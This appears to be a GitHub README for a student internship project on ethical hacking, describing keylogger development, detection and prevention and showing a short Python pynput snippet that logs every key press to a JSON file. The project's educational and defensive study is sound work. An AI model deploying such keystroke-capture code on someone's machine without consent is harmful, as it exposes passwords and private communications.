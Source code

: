 # Ethical Hacking and Cyber Security Internship

This repository contains the code, documentation, and insights from my summer internship project focused on **Ethical Hacking and Cyber Security** with a specialization in keylogger development and detection.

## Project Overview

The project explored the development, functionality, and ethical implications of keyloggers—a tool that records keystrokes on a system. It aims to provide a comprehensive understanding of keylogging mechanisms, their applications in cybersecurity, and strategies to mitigate the risks they pose.

### Key Objectives

1. Develop a Python-based keylogger capable of recording keystrokes and saving them in various formats.
2. Understand the working of hardware and software keyloggers.
3. Explore methods for detecting and preventing keylogger infections.
4. Discuss the ethical implications of keylogger usage.

---

## Features

- **Keylogger Development**:
  - Implements keystroke logging using Python's `pynput` library.
  - Saves logs in both JSON and plain text formats for analysis.
- **Controlled Environment Testing**:
  - Safe execution in an isolated setup to ensure ethical compliance.
- **Detection and Prevention**:
  - Discusses common detection techniques like signature analysis and behavior monitoring.
  - Suggests prevention measures, including endpoint security protocols.

---

## Coding Snippet

The keylogger implementation uses Python's `pynput` library. Below is a snippet showcasing the main functionality:

```python
from pynput import keyboard
import json

keys_used = []

def on_press(key):
    keys_used.append({'Pressed': f'{key}'})
    with open('key_log.json', 'w') as key_log:
        json.dump(keys_used, key_log)

def start_keylogger():
    listener = keyboard.Listener(on_press=on_press)
    listener.start()
    listener.join()

start_keylogger()
